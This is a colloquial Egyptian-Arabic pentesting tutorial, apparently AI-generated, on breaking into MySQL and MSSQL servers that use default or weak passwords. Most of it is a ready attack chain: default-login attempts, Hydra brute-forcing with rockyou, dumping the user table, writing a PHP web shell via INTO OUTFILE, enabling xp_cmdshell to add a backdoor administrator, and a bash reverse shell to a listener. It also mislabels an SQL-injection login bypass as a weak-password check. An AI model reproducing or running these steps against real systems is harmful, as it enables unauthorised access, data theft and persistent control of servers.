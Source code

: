 تمام، هشرح لك "Using Default Credentials or Weak Passwords for Database Authentication" بعمق شديد، مع تركيز على الجانب العملي، الأوامر، والأكواد. هخلّص كل جزء بالعامية المصرية زي ما تكون بتسمع من صاحبك، وفي الآخر هقدم خطوات عملية للاستغلال في سياق Pentesting.

---

### **1. إيه يعني Using Default Credentials or Weak Passwords for Database Authentication؟**

#### **الشرح العميق:**
يعني إن قاعدة البيانات (زي MySQL، MSSQL، PostgreSQL) بتستخدم كلمات سر افتراضية (Default Credentials) أو كلمات سر ضعيفة جدًا (Weak Passwords) للمستخدمين بتوعها. "Default Credentials" هي اللي بتيجي جاهزة مع البرنامج (زي `root` بدون كلمة سر في MySQL أو `sa` بكلمة سر `admin` في MSSQL)، و"Weak Passwords" هي حاجة زي `1234` أو `password`. المشكلة إن المهاجمين بيعرفوا القيم الافتراضية دي، وكلمات السر الضعيفة بتكون سهلة التخمين، فلو ما اتغيرتش أو اتعملت أقوى، بيبقى الباب مفتوح لأي حد يدخل.

- **Default Credentials:** زي `root:` (فاضي) أو `sa:sa`.
- **Weak Passwords:** زي `admin123` أو `dbpass`.

#### **الأدوات والأوامر العملية:**
1. **فحص MySQL:**
   - `mysql -u root -p -h 192.168.1.10` -> اضغط Enter بدون كلمة سر.
   - لو دخلت: `SHOW DATABASES;` -> يعني root مفتوح.

2. **فحص MSSQL:**
   - `sqlcmd -S 192.168.1.10 -U sa -P ""`.
   - لو نجحت، شغل: `SELECT @@VERSION;` -> يعني sa مفتوح.

3. **تخمين كلمات سر ضعيفة:**
   - بـ Hydra:
     - `hydra -l root -P /path/to/wordlist.txt mysql://192.168.1.10`.
     - لو لقيت `root:1234`، يبقى ضعيف.

#### **خلاصة بالعامية المصرية:**
"يعني زي ما تكون سايب باب البيت مفتوح أو حاطط مفتاح تحت الدواسة وكاتب عليه `خش`! Default Credentials زي كلمة السر اللي بتيجي مع العربية، وWeak Passwords زي ما تكتب `123` وتقول محدش هيعرفها."

---

### **2. ليه المشكلة دي خطيرة؟**

#### **الشرح العميق:**
الكلمات الافتراضية أو الضعيفة بتخلّي أي حد يقدر يدخل قاعدة البيانات بسهولة، وبما إن قاعدة البيانات فيها كل حاجة مهمة (زي بيانات العملاء، كلمات السر، أو معلومات الشركة)، المهاجم يقدر:
- **يسرق البيانات:** ياخد كل حاجة في الجداول.
- **يعدل أو يمسح:** يخرب النظام أو يغير بيانات.
- **يصعد صلاحيات:** لو قاعدة البيانات متصلة بالسيرفر، يقدر ياخد Shell أو يتحكم في النظام كله.

في الـ Pentesting، دي من أسهل الثغرات اللي بتلاقيها، لأن كتير من المسؤولين بيسيبوا الكلمات الافتراضية أو يحطوا حاجة ضعيفة وينسوا يغيروها.

#### **الأدوات والأوامر العملية:**
1. **استغلال MySQL Default:**
   - `mysql -u root -h 192.168.1.10` -> لو دخلت:
     - `SELECT * FROM mysql.user;` -> تسريب بيانات المستخدمين.
     - `SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';`.

2. **استغلال MSSQL sa:**
   - `sqlcmd -S 192.168.1.10 -U sa -P "sa"`.
   - `EXEC xp_cmdshell 'whoami';` -> لو رجع `system`، يبقى سيطرت.

3. **SQL Injection للتخمين:**
   - `http://192.168.1.10/login.php?user=admin' OR 1=1 -- &pass=123`.
   - لو دخلت، يبقى التطبيق بيستخدم كلمة سر ضعيفة.

#### **خلاصة بالعامية المصرية:**
"المشكلة دي خطيرة لأنها زي ما تكون سايب خزنة فلوسك مفتوحة وكاتب الكود جنبها! المهاجم يخش، ياخد كل حاجة، ولو لقى طريق للسيرفر، يبقى هو الباشا بتاعك."

---

### **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم الكلمات الافتراضية أو الضعيفة عشان تدخل قاعدة البيانات وتاخد وصول أعلى.
- **مثال واقعي:** لو لقيت MySQL مفتوح كـ root، تكتب Shell وتتحكم في السيرفر.

#### **خلاصة بالعامية المصرية:**
"لما تلاقي كلمة سر زي دي، زي ما تكون لقيت مفتاح الباب في جيبك! بتستخدمه عشان تفتح كل حاجة وتبقى الكبير بتاع المكان."

---

### **خطوات عملية للاستغلال في Pentesting**

#### **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 3306: MySQL 5.7.
  - Port 1433: MSSQL.

#### **الخطوة 2: تجربة Default Credentials**
- MySQL:
  - `mysql -u root -p -h 192.168.1.10` -> Enter بدون كلمة سر.
  - أو: `mysql -u root -proot -h 192.168.1.10`.
- MSSQL:
  - `sqlcmd -S 192.168.1.10 -U sa -P ""`.
  - أو: `sqlcmd -S 192.168.1.10 -U sa -P "sa"`.

#### **الخطوة 3: تخمين Weak Passwords**
- لو ما نجحتش:
  - `hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://192.168.1.10`.
  - أو لـ MSSQL:
    - `hydra -l sa -P /usr/share/wordlists/rockyou.txt mssql://192.168.1.10`.

#### **الخطوة 4: استغلال الوصول**
- في MySQL (لو دخلت كـ root):
  - `SELECT * FROM mysql.user;` -> تسريب بيانات.
  - `SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';`.
  - افتح: `http://192.168.1.10/shell.php?cmd=id` -> `www-data`.
- في MSSQL (لو دخلت كـ sa):
  - `EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;`.
  - `EXEC xp_cmdshell 'net user hacker pass123 /add';`.

#### **الخطوة 5: تصعيد الصلاحيات**
- من Shell في لينكس:
  - `http://192.168.1.10/shell.php?cmd=/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`.
  - `nc -lvnp 4444` -> Shell -> `id` -> `sudo -l` -> تصعد لو لقيت حاجة.
- في ويندوز:
  - `EXEC xp_cmdshell 'net localgroup administrators hacker /add';`.
  - سجل دخول بـ `hacker:pass123`.

#### **الخطوة 6: توثيق**
- سجل كلمات السر اللي نجحت (زي `root:` أو `sa:sa`).
- قدم تقرير يوضح إزاي دخلت وخطر الثغرة.

#### **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت مفتاح الباب في التراب، فتحته، خدت كل حاجة، وطلعت الكبير بتاع الحتة! الكلمات الضعيفة دي طريقك للفوز بسهولة."

---

### **الخلاصة النهائية:**
Using Default Credentials or Weak Passwords for Database Authentication هي ثغرة خطيرة لأنها بتخلّي قاعدة البيانات مفتوحة لأي حد. في الـ Pentesting، دور عليها بـ Nmap وHydra، استغلها عشان تدخل، تسرق بيانات، أو تاخد Shell، ووري العميل إن نظامه زي بيت من غير قفل! بالطريقة دي، تبقى البطل بتاع اللعبة بكل سهولة!